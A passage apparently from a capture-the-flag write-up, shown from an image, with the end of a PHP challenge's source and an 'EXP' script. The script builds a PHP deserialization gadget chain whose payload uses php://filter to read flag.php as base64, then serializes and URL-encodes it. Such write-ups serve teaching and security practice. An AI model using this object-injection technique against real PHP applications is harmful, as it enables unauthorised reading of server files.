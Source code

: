 ```php
    {
        $this->effort = array();
    }
    public function __get($key)
    {
        $function = $this->effort;
        return $function();
    }
}
/**********************Try to See flag.php*****************************/

```

EXP:

```php
<?php
class Road_is_Long
{
    public $page;
    public $string;

}

class Try_Work_Hard
{
    protected  $var = 'php://filter/convert.base64-encode/resource=flag.php';
}

class Make_a_Change
{
    public $effort;
}

$o = new Road_is_Long;
$o->page = new Road_is_Long;
$o->page->string = new Make_a_Change;
$o->page->string->effort = new Try_Work_Hard;

$payload = serialize($o);
echo 'payload:<br>' . $payload . '<br>';
echo urlencode($payload); 
```
